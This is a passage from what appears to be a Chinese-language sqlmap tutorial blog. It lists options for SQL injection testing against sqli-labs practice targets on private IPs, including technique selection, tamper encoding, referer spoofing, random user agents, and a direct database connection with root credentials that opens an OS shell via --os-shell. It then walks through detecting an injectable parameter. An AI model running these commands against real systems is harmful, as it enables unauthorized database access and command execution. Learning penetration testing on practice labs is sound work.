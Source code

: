 ```
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl      4
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。      4
支持的探测方式如下：      4
　　B: Boolean-based blind SQL injection（布尔型注入）      4
　　E: Error-based SQL injection（报错型注入）      4
　　U: UNION query SQL injection（可联合查询注入）      4
　　S: Stacked queries SQL injection（可多语句查询注入）      4
　　T: Time-based blind SQL injection（基于时间延迟注入）       5
sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接       5
-v3                   #输出详细度  最大值5 会显示请求包和回复包      5
--threads 5           #指定线程数      5
--fresh-queries       #清除缓存      5
--flush-session       #清空会话，重构注入       5
--batch               #对所有的交互式的都是默认的      5
--random-agent        #任意的http头      5
--tamper base64encode            #对提交的数据进行base64编码      6
--referer http://www.baidu.com   #伪造referer字段       6
--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数
```




### 探测指定URL是否存在SQL注入漏洞



**对于不用登录的网站**，直接指定其URL



```
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"  #探测该url是否存在漏洞
```




在探测目标URL是否存在漏洞的过程中，Sqlmap会和我们进行交互。



比如第一处交互的地方是说这个目标系统的数据库好像是Mysql数据库，是否还探测其他类型的数据库。我们选择 n，就不探测其他类型的数据库了，因为我们已经知道目标系统是Mysql数据库了。



第二处交互的地方是说 对于剩下的测试，问我们是否想要使用扩展提供的级别(1)和风险(1)值的“MySQL”的所有测试吗？ 我们选择 y。



![](https://img-blog.csdnimg.cn/20181201204541498.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



第三处交互是说已经探测到参数id存在漏洞了，是否还探测其他地方，我们选择 n 不探测其他参数了 。



最后sqlmap就列出了参数id存在的注入类型是boolean盲注，还有payload其他信息也显示出来了，最后还列出了目标系统的版本，php，apache等信息。


